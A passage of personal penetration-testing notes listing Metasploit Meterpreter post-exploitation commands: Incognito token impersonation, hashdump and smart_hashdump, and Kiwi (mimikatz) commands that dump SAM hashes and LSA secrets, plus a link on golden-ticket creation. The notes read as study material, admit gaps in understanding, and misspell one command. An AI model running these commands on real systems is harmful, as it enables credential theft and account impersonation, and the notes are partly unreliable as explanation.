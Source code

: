 #### Incognito

Allows for the extraction of tickets

```bash
# Load extension
load incognito

# List tokens by username
list_tokens -u

# Use a token to impersonate a user
# Note, you must use double-backslash to escape the slash
impetsonate_token domain\\user
```

### Dumping Hashes

#### Hashdump

```bash
# Hashdump could trigger AV
hashdump

# Better to run smart_hashdump
run post/windows/gather/smart_hashdump
```

#### Kiwi

Note: See the help menu for more info:

```bash
# Kiwi
load kiwi

# Elevate to SYSTEM privileges
getsystem

# Dump system credentials
lsa_dump_sam

# No clue what this actually does
creds_msv
```

This is a good page to check out, I just didn't take time to document the stuff on it.  It includes dumping 'secrets' and how to automate the creation of a golden ticket via Kiwi:  https://www.hackingarticles.in/metasploit-for-pentester-mimikatz/

### Dumping Secrets

Idek what this is really, but here it is:

```bash
lsa_dump_secrets
```
